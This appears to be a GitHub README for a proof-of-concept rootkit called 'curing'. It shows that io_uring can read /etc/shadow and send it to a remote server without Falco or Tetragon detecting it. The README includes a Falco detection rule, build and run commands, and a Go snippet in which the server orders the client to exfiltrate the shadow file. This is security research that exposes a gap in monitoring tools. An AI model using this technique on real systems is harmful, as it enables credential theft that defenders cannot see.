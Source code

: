 # POC bypassing Falco

As a POC, we will bypass Falco by running the latest version Falco on the machine with the following rules:

* Detect any TCP connection attempts to port 8888
* Detect access to /etc/shadow 

## Running Falco
Let's start by running Falco on the machine where `curing` is running.

To run Falco, we will use the following command:
```shell
docker run --rm -i -t --name falco --privileged  \
    -v $(pwd)/falco_custom_rules.yaml:/etc/falco/falco_rules.local.yaml \
    -v /var/run/docker.sock:/host/var/run/docker.sock \
    -v /dev:/host/dev -v /proc:/host/proc:ro -v /boot:/host/boot:ro \
    -v /lib/modules:/host/lib/modules:ro -v /usr:/host/usr:ro -v /etc:/host/etc:ro \
    falcosecurity/falco-no-driver:0.39.2 falco
```

The `falco_custom_rules.yaml` file contains the following rule to detect any TCP connection attempts to port 8888 (detecting access to `/etc/shadow` is built-in):
```yaml
- rule: TCP Connection to Port 8888
  desc: Detect any TCP connection attempts to port 8888
  condition: >
    evt.type=connect and 
    evt.dir=< and 
    fd.type=ipv4 and 
    fd.sport=8888 and 
    fd.l4proto=tcp
  output: >
    TCP connection to port 8888 detected 
    (process=%proc.name 
    command=%proc.cmdline 
    connection=%fd.name 
    container=%container.info 
    user=%user.name)
  priority: NOTICE
  tags: [network]
```

## Showing regular Falco alerts
To show that Falco is working, we ran `nc` to connect to port 8888 and access `/etc/shadow`:

https://github.com/user-attachments/assets/49560105-76e3-4972-adcf-cb325b234cbe

We can see that Falco detected the connection to port 8888 and access to `/etc/shadow` as expected.

## Bypassing Falco
To bypass Falco, we will run the `curing` client and server.
To build the `curing` client and server, we will use the following commands:
```shell
make all
```

To run the `curing` server, we will use the following command:
```shell
./build/server
```

To control the server port, edit the server.port in `cmd/config.json`, the default port is 8888.

To run the `curing` client, we will use the following command:
```shell
./build/client
```
It will read the `cmd/config.json` file to connect to the server so be sure to edit the details in the file.

For the sake of this POC, the server is just going to send one command to the client to read `/etc/shadow` and send it back to the server.
```go
commands := []common.Command{
  common.ReadFile{Id: "read shadow", Path: "/etc/shadow"},
}
```
You can edit the commands in the `pkg/server.go` file.

The `curing` rookit is using `io_uring` to connect to the server and to read the file `/etc/shadow`, this means that "0" syscalls (which are related to the attack) are made and Falco will not detect the attack.

https://github.com/user-attachments/assets/858dbc60-ffa4-445e-a354-a08caa83b102

As we can see, Falco is not detecting the attack because the attack is not using any syscalls that Falco is monitoring.

## Conclusion
In this POC, we bypassed Falco by using `io_uring` to connect to the server and read the file `/etc/shadow`. This means that Falco is not able to detect the attack because the attack is not using any syscalls that Falco is monitoring, this attack technique is also bypassing other security tools that are monitoring syscalls such as Tetragon by Cilium.
